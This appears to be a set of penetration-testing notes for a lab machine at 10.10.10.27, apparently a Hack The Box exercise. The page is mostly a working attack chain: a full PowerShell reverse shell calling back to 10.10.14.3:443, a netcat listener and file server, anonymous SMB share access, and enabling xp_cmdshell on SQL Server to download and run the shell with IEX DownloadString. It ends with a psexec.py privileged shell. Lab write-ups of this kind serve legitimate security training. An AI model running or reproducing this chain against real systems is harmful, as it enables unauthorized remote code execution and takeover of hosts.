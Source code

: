 # CLIENTS

# 📂 UP A FILE SERVER
<!--[NOTE](CLIENTS%200683c1b12cf54383bb91fb3c61824e77/UP%20A%20FILE%20SERVER%2043667d6f827f4c4b8342731d5e92dd1e.md)-->

to create the payload in your machine to pass to the server

this powershell code will get a RCE

- save this in a file *shell.ps1*

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```markdown
# Up a webserver in the host to hospedate the file with python
> python3 -m http.server 80

# Start a NETCAT listener
> nc -lvnp 443

# Allow reverse 80 - 443 port connection on the host
> ufw allow from 10.10.10.27 proto tcp to any port 80,443
```


# 🌐 SMB Server
<!--[NOTE](CLIENTS%200683c1b12cf54383bb91fb3c61824e77/SMB%20Server%20beb9a02922e74f849961d241b053ca33.md)>

```markdown
# 10.10.10.27 port 1433 is open to smbserver

## connect in the smb machine
> smbclient -N -L 10.10.10.27
> smbclient -N 10.10.10.27/backups

## Download files shared in smb
> smbget -R smb://10.10.10.27/backup/<FILE>
## or
> SMB> get <FILE>
```
# 🌐 SQL Server
<!--[NOTE](CLIENTS%200683c1b12cf54383bb91fb3c61824e77/SQL%20Server%2004f3053e885240499fcb14cac0b4a953.md)-->

```markdown
# connect to sqlserver with impacket
> git clone https://github.com/SecureAuthCorp/impacket

> mssqlclient.py USERNAME/sql_svc@10.10.10.27 -windows-auth

# command IS_SRVROLEMEMBER to veryfy if the current user has ADMIN privileges
> SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')
```

```markdown
# This code will activate xp_cmdshell and gain RCE on the host
# will be sucefull if the host has administrative privileges
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

**UP A FILE SERVER in your machine**

to pass the payload to the server to get a RCE

```markdown
# And download the file from your computer to the server and execute
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"
```

to get a privilated shell on the server with *impacket*

```markdown
# Using the psexec.py to get privilaged shell
> psexec.py administrator@10.10.10.27
```
